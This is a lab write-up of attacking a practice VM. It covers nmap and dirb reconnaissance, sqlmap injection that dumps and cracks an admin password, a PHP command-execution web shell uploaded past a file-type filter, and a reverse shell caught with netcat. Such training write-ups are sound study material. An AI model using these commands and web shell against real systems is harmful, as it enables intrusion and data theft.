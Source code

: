 # Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°80

Targets : Reconnaissance, SQLi, exploit

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
Our target is 10.0.2.7.

![picture 0](../images/bc267a05816217fe9b235aee12329d24e270323656f60c62493a043ec341ac5b.png)  

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options (uniquly ports and secondly enabling default scripts, identifying service versions, and disregarding ping host discovery.).

```bash
$ sudo nmap -p- 10.0.2.7
$ sudo nmap -sC -sV -Pn 10.0.2.7
```

![picture 1](../images/607138fad172eadf3a73f784ef9cc3a676c7396de49dc670a7fe344a4e020a62.png)  

![picture 2](../images/c52eca9bd070e0535951de0033fd4697d84dd9fd1e515819d46c6754c8a6c353.png)  

Now we can see that theses ports are open (all TCP) :
- port 22 — OpenSSH 5.5p1 Debian 6+squeeze2 (protocol 2.0)
- port 80 - Apache httpd 2.2.16 ((Debian))

### 3. Find vulnerabilities

#### 3.1. Port 80 - HTTP

We can try to find vulnerabilities on the web server with dirb.

```bash
$ dirb http://10.0.2.7
```

![picture 3](../images/713a5a869f2cade655cf27fd58af3a883ce84c2acf608e70a1b9fa2edbb4e910.png)  

After opened the main page of the web server, we can see a secret blog, with some pages, pictures and tabs.

![picture 4](../images/d5099a854fc1bd8562f6604cb17c91ef46347c57ad334ee9b02f1297cb3e2bde.png)  

Admin page is protected by a password.

![picture 5](../images/b06b69579beb80a882996b60b8acd3fc07380d9e27597ec0d2d5bdc7cb8b7238.png)  


### 4. Exploit with sqlmap

Now that we have found a web server, we can try to exploit it with sqlmap (-u to state the vulnerable URL and --dbs to enumerate the database).

```bash
$ sqlmap -u http://10.0.2.7/ --dbs
```

![picture 6](../images/8576425f4d707040c1968867a5398bfa97e8626cdf43c8b942835b23dfbd21f7.png)  

I have failed to do the sqlmap because sqlmap need parameter(s) for testing in the provided data.
So, we need to choose one page with a parameter to test in the URL, so we can try to exploit cat.php and some id parameter.

```bash
$ sqlmap -u http://10.0.2.7/cat.php?id= --dbs
```
![picture 7](../images/20351d6f039bcd8fb0887154d92235511886624aa23ebc43a5637014acc1bacc.png)  

We can see that 2 databases are hosted, `information_schema` and `photoblog`.

Now, we can specify the database to enumerate tables.

```bash
sqlmap -u http://10.0.2.7/cat.php?id= --tables -D photoblog
```

![picture 8](../images/f2ee0d47628ce8221b66dea9a65555d6caed64a387a19ebdf3b9b26ae5b1082a.png)  


We can see that 3 tables are in database `photoblog` --> `users`, `categories` and `pictures`.

Now, we can specify the database and the table to enumerate and dump columns.

```bash
sqlmap -u http://10.0.2.7/cat.php?id= --columns -D photoblog -T users
```
![picture 9](../images/c6a72f691b8fcc3c43d810ce39fbbea5f6b56731b79d4fb8671054ee72f9a449.png) 

We can see that 3 columns are in table `users` --> `id`, `login` and `password`.

To dump the password, we can proceed with the same command and add `--dump` option.

```bash
sqlmap -u http://10.0.2.7/cat.php?id= --dump -D photoblog -T users
```
![picture 10](../images/3d053e5ef742b37342f8067a36aa96be17c20e607245936ff39777d1ade497b3.png)  

The program ask us if i want to crack the hash of the passwords founds, and after that, the password are cracked.

`admin:P4ssw0rd` (hash:8efe310f9ab3efeae8d410a8e0166eb2)

Now, we can try to connect to the admin page with the credentials found.

A new page is displayed, with a new tab, `Upload`.

![picture 11](../images/6470a6c90ade0cd237eb9d0323e8d839c053f48fe6f9fc6efc8177483281cba2.png)  

We can try to upload a file to get a reverse shell, but the file is rejected because the file is not an image.

I tried to put that in a file and upload it with the name `script.php3`.
```php
<?php
  system($_GET['cmd']);
?>
```
Now we can go to `10.0.2.7/admin/uploads` which is a directory listable, and we can see our file.
I click on it and i put a parameter `?cmd=whoami` and i wan see that our user is www-data.

![picture 0](../images/60bcd3b6359408132253728be3fdb92b687dbce32f6acce597c9958b94ab3ab3.png)  

## Another method

With this script
[Github source of php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
we can upload like the old script (rename it with .Php or php3 extension), upload it and execute it with the same method.

Just insure that the IP address and the port are correct in the port (the kali machine and a random port 8080 for me)


![picture 0](../images/51a333d98ef4de92a2c42585298ed0b9a896ae16fe0cc9b76cdb3317536e196a.png)  


We can listen with `nc -v -n -l -p 8080`

With that, we can access to a reverse shell with the user www-data.
